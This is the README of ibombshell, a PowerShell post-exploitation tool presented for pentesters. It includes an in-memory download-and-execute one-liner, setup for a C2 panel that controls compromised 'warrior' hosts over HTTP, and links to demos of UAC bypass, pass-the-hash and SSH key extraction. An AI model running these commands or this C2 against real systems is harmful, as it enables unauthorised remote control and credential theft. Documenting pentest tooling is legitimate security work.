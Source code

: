 ![Supported Python versions](https://img.shields.io/badge/python-3.6-blue.svg?style=flat-square)
![License](https://img.shields.io/badge/license-GNU-green.svg?style=flat-square)

# **ibombshell - Dynamic Remote Shell**

```
      ,--.!,    _ ____                  __   _____ __         ____  
   __/   -*-   (_) __ )____  ____ ___  / /_ / ___// /_  ___  / / /  
 ,d08b.  '|`  / / __  / __ \/ __ `__ \/ __ \\__ \/ __ \/ _ \/ / /  
 0088MM      / / /_/ / /_/ / / / / / / /_/ /__/ / / / /  __/ / /  
 `9MMP'     /_/_____/\____/_/ /_/ /_/_.___/____/_/ /_/\___/_/_/  

 [+] Starting the console...
 [*] Console ready!
```

**ibombshell** is a tool written in Powershell that allows you to have a prompt at any time with post-exploitation functionalities (and in some cases exploitation). It is a shell that is downloaded directly to memory providing access to a large number of pentesting features. These functionalities can be downloaded directly to memory, in the form of a Powershell function. This form of execution is known as *everywhere*.

In addition, *ibombshell* provides a second execution mode called *Silently*, so the pentester can execute an instance of ibombshell (called *warrior*). The compromised computer will be connected to a C2 panel through HTTP. Therefore, it will be possible to control the warrior and be able to load functions in memory that help the pentester. This is happening whithin the post-exploitation phase.

# Prerequisities

To run *ibombshell everywhere* it is mandatory to have PowerShell 3.0 or higher. For operating systems other than Windows you can read more about this in the [PowerShell GitHub](https://github.com/PowerShell/PowerShell) - *PowerShell for every system!*.

To run the *ibombshell silently mode* you need python 3.6 and some python libraries. You can install this with:

```[python]
cd ibombshell\ c2/
pip install -r requirements.txt
```

**Note**: ibombshell C2 works in **python 3.X**. Make sure you run a pip relative to this version.

# Usage

ibombshell has two execution modes:

## ibombshell everywhere

To load ibombshell simply run on PowerShell:

```[powershell]
iex (new-object net.webclient).downloadstring(‘https://raw.githubusercontent.com/ElevenPaths/ibombshell/master/console’)
```

Now you can run the downloaded ibombshell console running:

```[powershell]
console
```

## ibombshell silently mode

This version allows you to run the ibombshell console and remotely control it from the C2 panel created in python. To run this version, first you must launch the console process in powershell:

```[powershell]
iex (new-object net.webclient).downloadstring(‘https://raw.githubusercontent.com/ElevenPaths/ibombshell/master/console’)
```

On ibombshell C2 path, prepare the C2:

```[python]
python3 ibombshell.py
```

And create the listener where the warriors will connected:

```[ibombshell]
iBombShell> load modules/listener.py
[+] Loading module...
[+] Module loaded!
iBombShell[modules/listener.py]> run
```

The default listener port is 8080. Finally you can launch the console in silently mode on the host to get remote control:

```[powershell]
console -Silently -uriConsole http://[ip or domain]:[port]
```

# ibombshell C2 scheme

The basic operation of the ibombshell control panel follows the following scheme:

```[ascii]
        ibombshell                 C2
            |                      |
            |    newibombshell     |
            +--------------------->| --+ register
            |                      |<--+ from IP
            |    get functions     |
            |   and instructions   |
            +--------------------->|
            |                      |
            |    send functions    |
            |   and instructions   |
execute +-- |<---------------------+
        +-->|                      |
            |       results        |
            +--------------------->|
            |                      |
```

# Docker

We have created a docker container with everything you need to make it works. Run this command from Dockerfile location.

```[bash]
sudo docker build -t "ibombshell" .
sudo docker run -it ibombshell
```

# Example videos

Some example videos...

### *iBombShell: PoC Warrior + Bypass UAC + Pass the hash*

[![iBombShell: PoC Warrior + Bypass UAC + Pass the hash](https://img.youtube.com/vi/v4c8MsOPTyA/0.jpg)](http://www.youtube.com/watch?v=v4c8MsOPTyA)

### *iBombShell: macOS*

[![iBombShell: PoC de uso desde macOS](https://img.youtube.com/vi/DQlWGPS1CB4/0.jpg)](http://www.youtube.com/watch?v=DQlWGPS1CB4)

### *ibombshell: Extracting Private SSH Keys on Windows 10*

[![ibombshell: Módulo para extracción de claves privadas SSH en Windows 10](https://img.youtube.com/vi/v7iXEg9cTNY/0.jpg)](http://www.youtube.com/watch?v=v7iXEg9cTNY)

### *iBombShell: PoC savefunctions*

[![iBombShell: PoC savefunctions](https://img.youtube.com/vi/7UP09LdRJy0/0.jpg)](http://www.youtube.com/watch?v=7UP09LdRJy0)

### *ibombshell - Silently bypass UAC Environment Injection*

[![ibombshell - Modo silencioso para el bypass UAC Environment Injection](https://img.youtube.com/vi/XrWM2gcXo3w/0.jpg)](https://www.youtube.com/watch?v=XrWM2gcXo3w)

# License

This project is licensed under the GNU General Public License - see the LICENSE file for details

# Contact

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

This software doesn't have a QA Process. This software is a Proof of Concept.

If you have any problems, you can contact:

<pablo@11paths.com> - *Ideas Locas CDO - Telefónica*

<alvaro.nunezromero@11paths.com> - *Laboratorio Innovación - ElevenPaths*

For more information please visit [https://www.elevenpaths.com](https://www.elevenpaths.com).
